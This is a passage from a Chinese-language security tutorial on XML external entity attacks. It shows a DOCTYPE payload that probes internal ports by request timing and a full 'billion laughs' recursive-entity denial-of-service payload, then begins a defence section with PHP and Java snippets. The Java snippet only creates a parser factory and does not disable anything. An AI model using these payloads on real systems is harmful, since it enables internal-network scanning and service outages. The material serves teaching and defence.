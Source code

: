 #### 内网探测 内网服务攻击

在XML攻击中，大都是使用外部实体引用，那么当禁止外部实体引用时呢

这种情况下，大多数攻击都会失效，但是ssrf不会

还有一种请求外部资源的方式，直接使用`DOCTYPE`

```Xml
<!DOCTYPE root SYSTEM "http://127.0.0.1:2333">
```

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpzp5qq2vzj309y02974f.jpg)

当端口存在时，请求只会用很短的时间，但是当端口不存在时，实用的时间将大大加长

利用这种特性，我们可以对内网进行探测。甚至向内网发起攻击

#### DOS拒绝服务

任何能大量占用服务器资源的方法都可以造成 DoS，这个的原理就是递归引用

```xml
<?xml version = "1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1 ;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2 ;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3 ;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4 ;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5 ;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6 ;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7 ;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8 ;">]>
<lolz>&lol9;</lolz>
```

`lol `实体具体还有 `"lol"` 字符串，然后一个 `lol1` 实体引用了 10 次 lol 实体，一个 `lol2` 实体引用了 10 次 `lol1` 实体，此时一个 `lol2` 实体就含有 `10^2` 个 `"lol"` 了，以此类推，`lol9` 实体含有 `10^9` 个 `"lol"` 字符串，从而导致拒绝服务攻击

### 防御

#### 使用开发语言提供的禁用外部实体的方法

**PHP**

```php
libxml_disable_entity_loader(true);
```

**Java**

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
```
